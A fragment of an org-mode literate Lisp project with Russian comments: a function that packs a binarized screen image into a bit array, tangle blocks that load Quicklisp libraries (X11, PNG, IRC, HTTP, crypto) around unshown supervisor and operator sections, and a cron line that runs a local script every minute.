** Bit-image

Упаковка бинаризованного черно-белого изображения в битовый массив

#+NAME: make_bit_image
#+BEGIN_SRC lisp
  (defun make-bit-image (image-data)
    (destructuring-bind (height width &optional colors)
        (array-dimensions image-data)
      ;; функция может работать только с бинарными изобажениями
      (assert (null colors))
      (let* ((new-width (+ (logior width 7) 1))
             (bit-array (make-array (list height new-width)
                                    :element-type 'bit
                                    :initial-element 1)))
        (do ((qy 0 (incf qy)))
            ((= qy height))
          (do ((qx 0 (incf qx)))
              ((= qx width))
            ;; если цвет пикселя не белый, считаем,
            ;; что это не фон и заносим в битовый массив 1
            (if (equal (aref image-data qy qx) 255)
                (setf (bit bit-array qy qx) 1)
                (setf (bit bit-array qy qx) 0))))
        bit-array)))

  ;; TEST: make-bit-image
  ;; (print
  ;;  (make-bit-image
  ;;   (binarization (x-snapshot :x 0 :y 0 :width 30 :height 30) 127)))
#+END_SRC

* Assembly

#+NAME:
#+BEGIN_SRC lisp :tangle q.lisp :noweb yes
  (ql:quickload "anaphora")
  (use-package :anaphora)
  (ql:quickload "bordeaux-threads")
  (ql:quickload "clx")
  (ql:quickload "zpng")
  (ql:quickload "png-read")
  (ql:quickload "drakma")
  (ql:quickload "cl-ppcre")
  (ql:quickload "cl-base64")
  (ql:quickload "prbs")
  (ql:quickload "cl-irc")
  (ql:quickload "cl-json")
  (ql:quickload "ironclad")

  <<supervisor>>
#+END_SRC

#+NAME:
#+BEGIN_SRC lisp :tangle o.lisp :noweb yes
  (ql:quickload "anaphora")
  (use-package :anaphora)
  (ql:quickload "bordeaux-threads")
  (ql:quickload "clx")
  (ql:quickload "zpng")
  (ql:quickload "png-read")
  (ql:quickload "drakma")
  (ql:quickload "cl-ppcre")
  (ql:quickload "cl-base64")
  (ql:quickload "prbs")
  (ql:quickload "cl-irc")
  (ql:quickload "cl-json")
  (ql:quickload "ironclad")

  <<operator_loop>>
#+END_SRC

* Cron

#+BEGIN_SRC lisp
  (sb-posix:get-pid)
  ,*/1 * * * * export DISPLAY=:0 && cd ~/quicklisp/ && flock -xn ./srv.lock sbcl --load ./srv.lisp > ./log.txt
#+END_SRC
